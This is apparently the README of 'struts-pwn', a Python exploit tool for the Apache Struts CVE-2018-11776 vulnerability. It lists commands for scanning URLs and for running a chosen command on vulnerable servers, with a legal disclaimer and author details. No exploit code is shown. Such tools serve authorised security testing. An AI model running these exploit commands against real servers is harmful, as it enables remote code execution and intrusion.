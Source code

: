 *struts-pwn - CVE-2018-11776 Exploit*
============

### An exploit for Apache Struts CVE-2018-11776 ###


# **Usage** #

## Check if the vulnerability exists against a single URL. ##
`python struts-pwn.py --url 'http://example.com/demo/struts2-showcase/index.action'`

## Check if the vulnerability exists against a list of URLs. ##
`python struts-pwn.py --list 'urls.txt'`

## Exploit a single URL. ##
`python struts-pwn.py --exploit --url 'http://example.com/demo/struts2-showcase/index.action' -c 'id'`

## Exploit a list of URLs. ##
`python struts-pwn.py --exploit --list 'urls.txt' -c 'id'`


# **Demo** #
![Demo](https://github.com/mazen160/public/raw/master/static/images/struts-pwn_CVE-2018-11776_Demo.gif)

![Screenshot 1](https://github.com/mazen160/public/raw/master/static/images/struts-pwn_CVE-2018-11776_Screenshot_1.png)

![Screenshot 2](https://github.com/mazen160/public/raw/master/static/images/struts-pwn_CVE-2018-11776_Screenshot_2.png)


# **Requirements** #
* Python2 or Python3
* requests


# **Legal Disclaimer** #
This project is made for educational and ethical testing purposes only. Usage of struts-pwn for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# **License** #
The project is licensed under MIT License.


# **Author** #
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
